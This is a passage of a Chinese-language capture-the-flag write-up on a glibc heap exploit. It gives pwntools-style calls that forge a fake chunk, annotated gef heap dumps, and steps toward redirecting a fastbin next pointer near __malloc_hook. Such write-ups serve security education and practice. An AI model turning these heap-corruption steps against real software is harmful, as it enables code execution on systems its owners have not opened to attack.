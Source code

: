     buy(p64(0xDEADBEEF11),0xb1)
    buy('A'*0x8,123)
    buy('B'*0x8,123)#fake a 0xb1 chunk
    buy(p64(mlh+0x10),123)
操作之后堆的结构：

    0x55f7be7152a0:	0x0000000000000000	0x0000000000000021
    0x55f7be7152b0:	0x000055f7be715250	0x00000000000000b1<--fake chunk
    gef➤  
    0x55f7be7152c0:	0x000055f7be7152d0	0x0000000000000021
    0x55f7be7152d0:	0x000000deadbeef11	0x0000000000000000
    0x55f7be7152e0:	0x0000000000000000	0x0000000000000021
    0x55f7be7152f0:	0x000055f7be7152b0<---|	0x000000000000007b
    gef➤                                 |   
    0x55f7be715300:	0x000055f7be715310    |	0x0000000000000021
    0x55f7be715310:	0x4141414141414141    |	0x0000000000000000
    0x55f7be715320:	0x0000000000000000    |	0x0000000000000021
    0x55f7be715330:	0x000055f7be7152f0--- |	0x000000000000007b
    gef➤  
    0x55f7be715340:	0x000055f7be715350	0x0000000000000021
    0x55f7be715350:	0x4242424242424242	0x0000000000000000
    0x55f7be715360:	0x0000000000000000	0x0000000000000021
    0x55f7be715370<---head:	0x000055f7be715330	0x000000000000007b
    gef➤  
    0x55f7be715380:	0x000055f7be715390	0x0000000000000021
    0x55f7be715390:	0x00007f0ee5562b20	0x0000000000000000
    0x55f7be7153a0:	0x0000000000000000	0x0000000000020c61

注意到此时heapbase+330处food结构体next指针指向heapbase+2f0
之后我们free掉这个chunk，再次分配一个小于它大小的chunk会将其分割，这样我们就可以控制其next指针，使其指向mallochook附近
而后我们调用grill申请一个0x20大小的fastbin，free掉，令其链入fb[0]

    0x555e210922c0:	0x0000555e210923b0	0x00007f1a0000007b
    0x555e210922d0:	0x0000555e210922e0	0x0000000000000021
    0x555e210922e0:	0x4848484848484848	0x4848484848484848
    0x555e210922f0<---chunk created by grill
                  :	0x0000555e21092390	0x0000000000000020
    gef➤  
    0x555e21092300:	0x0000555e210922f0  0x00007f1a00000001
    0x555e21092310:	0x000000deadbeef11	0x0000000000000051
    0x555e21092320:	0x00007f1ab3862b78	0x00007f1ab3862b78
    0x555e21092330:	0x0000555e210922f0	0x000000000000007b
    gef➤  
    0x555e21092340:	0x0000555e21092350	0x0000000000000021
    0x555e21092350:	0x4242424242424242	0x0000000000000000
    0x555e21092360:	0x0000000000000050	0x0000000000000020
    0x555e21092370:	0x0000555e21092330	0x000000000000007b
    gef➤  
    0x555e21092380:	0x0000555e21092390	0x0000000000000021
    0x555e21092390:	0x00007f1ab3862b20	0x0000000000000000
    0x555e210923a0:	0x0000000000000000	0x0000000000000021
    0x555e210923b0:	0x0000555e21092370	0x000000000000007


  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/